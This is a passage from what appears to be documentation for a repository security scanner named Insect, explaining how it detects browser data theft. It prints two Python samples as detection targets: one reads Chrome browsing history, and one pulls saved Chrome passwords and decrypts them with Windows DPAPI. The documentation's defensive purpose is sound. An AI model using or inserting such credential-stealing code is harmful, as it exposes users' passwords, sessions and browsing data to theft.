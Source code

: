 **Security Controls:**

1. **Content Security Policy**: Implement CSP headers to prevent injection attacks
2. **Input Sanitization**: Sanitize all user inputs at application boundaries
3. **Encoding Detection**: Implement encoding detection and validation
4. **Logging**: Log suspicious character sequences for security monitoring
5. **Regular Audits**: Regularly audit code for Unicode-based vulnerabilities

## Browser Data Theft Detection

Insect can detect malicious code that attempts to steal sensitive browser data. This protection helps identify repositories that may be designed to harvest user information from web browsers.

### Browser History and Cookies Access

**Vulnerable Code:**

```python
import sqlite3
import os

def steal_browser_history():
    # Malicious code accessing browser history
    chrome_path = os.path.expanduser("~/.config/google-chrome/Default/History")
    firefox_path = os.path.expanduser("~/.mozilla/firefox/*/places.sqlite")
    
    conn = sqlite3.connect(chrome_path)
    cursor = conn.cursor()
    cursor.execute("SELECT url, title, visit_count FROM urls")
    return cursor.fetchall()
```

**What Insect Detects:**
- Identifies access to browser history databases (`History`, `places.sqlite`)
- Flags attempts to read browser cookies and cached data
- Detects suspicious file path patterns targeting browser data directories

**Why This is Dangerous:**
- Browser history reveals user's browsing patterns and interests
- Cookies may contain session tokens and authentication data
- This information can be used for profiling, tracking, or account hijacking

### Browser Password Extraction

**Vulnerable Code:**

```python
import win32crypt
import sqlite3
import json

def steal_chrome_passwords():
    # Dangerous: Accessing Chrome login data
    login_data_path = os.path.expanduser("~/AppData/Local/Google/Chrome/User Data/Default/Login Data")
    
    conn = sqlite3.connect(login_data_path)
    cursor = conn.cursor()
    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
    
    for row in cursor.fetchall():
        encrypted_password = row[2]
        # Decrypt using Windows DPAPI
        decrypted_password = win32crypt.CryptUnprotectData(encrypted_password)
        print(f"Site: {row[0]}, User: {row[1]}, Password: {decrypted_password}")
```
